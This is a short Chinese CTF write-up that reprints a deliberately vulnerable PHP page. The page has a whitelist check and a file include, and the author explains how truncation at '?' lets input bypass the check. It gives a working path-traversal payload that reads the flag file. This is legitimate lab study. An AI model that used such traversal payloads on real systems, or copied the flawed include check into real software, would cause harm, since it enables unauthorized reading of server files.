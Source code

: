 # 1.f12查看看到一个source.php

![](images/6B22815557A34894BFFA8EB3DCFB83F4clipboard.png)



# 2.访问souce.php

```python
<?php
highlight_file(__FILE__);
class emmm
{
    public static function checkFile(&$page)
    {
//        白名单
        $whitelist = ["source"=>"source.php","hint"=>"hint.php"];

//        不存在$page或$page不是字符串
//        return flase
        if (! isset($page) || !is_string($page)) {
            echo "you can't see it";
            return false;
        }

//        $page在白名单中返回true
        if (in_array($page, $whitelist)) {
            return true;
        }

//截取0-最后的字符串
        $_page = mb_substr(
            $page,
            0,
//            在$page后面跟了一个？，并查找？最后出现的位置，所以，这里获取的是最后一个字符的索引
            mb_strpos($page . '?', '?')
        );

//        if$page 还在白名单中则返回true
        if (in_array($_page, $whitelist)) {
            return true;
        }

//        $page url解码得到$_page
        $_page = urldecode($page);

//        截取0-最后的字符
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
//
        if (in_array($_page, $whitelist)) {
            return true;
        }
        echo "you can't see it";
        return false;
    }
}

//请求的file不为空，而且is_string&&checkFile return 1
//就包含文件
if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])

//    该题目标file=ffffllllaaaagggg时返回true
//    但是采用了白名单
//    有一个urldecode可以利用
//


    && emmm::checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
}
?>
```

得到源码



3.代码大体意思就是输入的file参数值只能为 $whitelist = ["source"=>"source.php","hint"=>"hint.php"];

而且还是白名单 



4.一开始以为利用点在urldecode,后面尝试，

source.php?file=source.php?file=../../../../../../ffffllllaaaagggg得到flag



5.只能说自己的还太年轻，source.php?file=ffffllllaaaagggg这个有想到。但是没想到../



6.所以这个题的思路就是source.php被该函数截取出来，绕过了前面的白名单检测，到include()时为source.php?file=../../../../../../ffffllllaaaagggg读取到flag

```python
        $_page = mb_substr(
            $page,
            0,
//            在$page后面跟了一个？，并查找？最后出现的位置，所以，这里获取的是最后一个字符的索引
            mb_strpos($page . '?', '?')
        );
```





